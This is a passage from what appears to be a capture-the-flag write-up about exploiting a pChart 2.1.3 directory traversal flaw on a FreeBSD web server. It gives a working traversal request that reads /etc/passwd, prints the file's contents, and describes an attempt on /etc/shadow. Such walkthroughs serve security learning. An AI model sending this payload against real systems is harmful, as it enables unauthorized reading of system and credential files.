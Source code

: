 However port 80's html source contains a meta tag:

{% highlight python %}
>
{% endhighlight %}

Browsing to the page `/pChart2.1.3/examples/index.php` we get a chart web app. Searching online for pchart 2.1.3 we find it has a couple of vulnerabilities. The most useful being directory traversal, we can use this to read files on the OS eg /etc/passwd and /etc/shadow.

## Web app
[Details of the vulnerabilities](https://www.exploit-db.com/exploits/31173/) pchart 2.1.3 directory traversal to read arbitrary files, note that this will be done with whatever permissions the user running Apache has. 

{% highlight python %}
Read `/etc/passwd`
/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd

# $FreeBSD: release/9.0.0/etc/master.passwd 218047 2011-01-28 22:29:38Z pjd $
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
mysql:*:88:88:MySQL Daemon:/var/db/mysql:/usr/sbin/nologin
ossec:*:1001:1001:User &:/usr/local/ossec-hids:/sbin/nologin
ossecm:*:1002:1001:User &:/usr/local/ossec-hids:/sbin/nologin
ossecr:*:1003:1001:User &:/usr/local/ossec-hids:/sbin/nologin
{% endhighlight %}

/etc/shadow doesn't return anything so I'm assuming that the server is running under the www user and doesn't have permission.
